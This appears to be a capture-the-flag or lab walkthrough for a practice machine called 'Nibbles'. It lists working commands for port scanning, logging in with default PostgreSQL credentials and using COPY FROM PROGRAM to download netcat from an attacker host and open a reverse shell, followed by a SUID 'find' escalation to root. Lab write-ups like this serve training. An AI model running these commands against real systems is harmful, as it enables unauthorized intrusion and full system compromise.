







# Exploitation Guide for Nibbles
## Summary
We'll gain code execution on this machine via a misconfigured PostgreSQL database server which is listening on all interfaces and accepts the default credentials. We can then escalate via misconfigured SUID permissions on the /usr/bin/find binary.
Enumeration
Nmap

### Let's begin with a full nmap TCP port scan.
`sudo nmap -p- 192.168.234.140`



### A focussed scan identifies PostgreSQL running on port 5437.
`sudo nmap -p 5437 192.168.234.140 -A -sV -T4`



## Exploitation
### PostgreSQL Reverse Shell

Since the PostgreSQL server is listening on all interfaces, we can connect to it with psql. Since credentials are required, we begin password guessing and discover that the default credentials (postgres:postgres) are still active.

`psql -h 192.168.234.140 -p 5437 -U postgres`


In addition, the default PostgreSQL settings are also in place, which means we can easily grab a reverse shell. To do this, we'll first start a web server and host our copy of the Netcat binary.

### Find and host nc binary on kali:
```
which nc
cp /usr/bin/nc .
sudo python3 -m http.server 80
```


### Then, we'll set up a Netcat listener on port 5437.
`nc -lvp 5437`

After switching to the default postgres database, we can download the Netcat binary to the target and use it to connect back to our attack machine.

```
\c postgres;
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'wget http://192.168.234.30/nc';
DELETE FROM cmd_exec;
COPY cmd_exec FROM PROGRAM 'nc -n 192.168.234.30 5437 -e /usr/bin/bash';
```


Our listener caught a postgres shell:


## Escalation
### SUID

As part of our enumeration process, we use find to locate SUID programs and interestingly discover that the find program itself is SUID.

```
find / -perm -u=s -type f 2>/dev/null
<esql/11/main$ find / -perm -u=s -type f 2>/dev/null
```

We can easily abuse this misconfiguration to obtain a root shell.

`find . -exec /bin/sh -p \; -quit`
`whoami`


